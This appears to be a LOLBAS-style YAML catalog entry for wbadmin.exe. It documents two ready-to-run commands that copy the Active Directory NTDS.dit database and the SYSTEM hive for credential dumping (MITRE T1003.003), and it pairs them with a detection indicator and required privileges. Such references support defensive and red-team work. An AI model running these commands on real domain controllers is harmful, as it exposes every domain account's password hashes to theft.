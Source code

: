 ```yaml
---
Name: wbadmin.exe
Description: Windows Backup Administration utility
Author: Chris Eastwood
Created: 2024-04-05
Commands:
  - Command: wbadmin start backup -backupTarget:C:\temp\ -include:C:\Windows\NTDS\NTDS.dit,C:\Windows\System32\config\SYSTEM -quiet
    Description: Extract NTDS.dit and SYSTEM hive into backup virtual hard drive file (.vhdx)
    Usecase: Snapshoting of Active Directory NTDS.dit database
    Category: Dump
    Privileges: Administrator, Backup Operators, SeBackupPrivilege
    MitreID: T1003.003
    OperatingSystem: Windows Server
  - Command: wbadmin start recovery -version:<VERSIONIDENTIFIER> -recoverytarget:C:\temp -itemtype:file -items:C:\Windows\NTDS\NTDS.dit,C:\Windows\System32\config\SYSTEM -notRestoreAcl -quiet
    Description: Restore a version of NTDS.dit and SYSTEM hive into file path. The command `wbadmin get versions` can be used to find version identifiers.
    Usecase: Dumping of Active Directory NTDS.dit database
    Category: Dump
    Privileges: Administrator, Backup Operators, SeBackupPrivilege
    MitreID: T1003.003
    OperatingSystem: Windows Server
Full_Path:
  - Path: C:\Windows\System32\wbadmin.exe
Detection:
  - IOC: wbadmin.exe command lines containing "NTDS" or "NTDS.dit"
Resources:
  - Link: https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960
---
```

